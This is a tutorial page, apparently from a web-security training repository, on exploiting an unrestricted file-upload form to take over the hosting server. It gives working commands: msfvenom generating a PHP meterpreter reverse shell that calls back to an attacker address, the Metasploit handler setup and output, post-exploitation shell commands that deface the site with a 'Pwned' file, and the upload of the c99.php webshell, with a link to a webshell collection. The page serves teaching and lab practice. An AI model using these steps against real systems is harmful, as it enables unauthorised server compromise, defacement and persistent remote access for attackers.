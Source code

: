 # File Upload

In this example, we'll show the possibility of sending a malicious file to the Web application, and thereby compromise the server where it is hosted. For that we will use Metasploit to create a malicious payload.

![](../assets/fu01.png)

After a successful upload to the server, the web application shows a success message revealing the directory where the file was stored. It is also possible to verify that the application accepts as upload any type of file and not only an image.

Since the form allows uploads of other types of files, we will create a malicious file and send it to the server through this upload mechanism. To do this, we'll use "**Metasploit**", which through the application "`msfvenom`" allows the creation of malicious payloads.

With the following command it is possible to create a "**reverse shell**", in PHP, which when executed opens a connection between the server and the attacker's machine, allowing the attacker to control it.

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.8.141 LPORT=4444 R > malicious_payload.php

    No platform was selected, choosing Msf::Module::Platform::PHP from the payload
    No Arch selected, selecting Arch: php from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 949 bytes

Then you need to edit the payload (malicious_payload.php), and remove the initial comment, and save the file again.

![](../assets/fu02.png)

Next we'll use Metasploit to create a service that listens for the connection from the attacker's malicious script.

    msfconsole
    use exploit/multi/handler
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.8.141
    set LPORT 4444
    exploit

    [*] Started reverse handler on 192.168.8.141:4444 
    [*] Starting the payload handler...

It is then possible to upload the malicious script to the application and the server.

![](../assets/fu03.png)

Once the application reveals where it is stored, it is possible to go to that same directory, select the malicious script and run it.

![](../assets/fu04.png)

After running the script, we can see in the Metasploit console (on the attacker's side) that it has received a connection from the victim (the web server, where the vulnerable application resides), and that it is now possible to use the `meterpreter` to perform actions on the victim.

![](../assets/fu05.png)

In this "`meterpreter`" we can launch a shell on the remote machine and execute several commands there.

    shell

We can execute several commands there, including creating files with messages by the attacker.

    uptime
    pwd
    whoami
    w
    echo "Pwned by SOMEONE!" > hacked.html

At the end we can see that a file "hacked.html" was created on the server.
 
When we click on that file, we can see the message that was placed there!

Moreover, we might also use this "`meterpreter`" shell, to upload more malicious scripts to the server. We might for instance upload a webshell to the server. We can use the same webshell we've used before - `c99.php`. [Here](https://www.r57shell.net/), you have a collection of such shells.

    upload c99.php

![](../assets/fu06.png)

Then, going back to the web application and looking at the files we have on the upload directory, we can select the `c99.php` script.

![](../assets/fu07.png)

When it is executed, you have access to a shell that allows you to navigate through the system!

![](../assets/fu08.png) 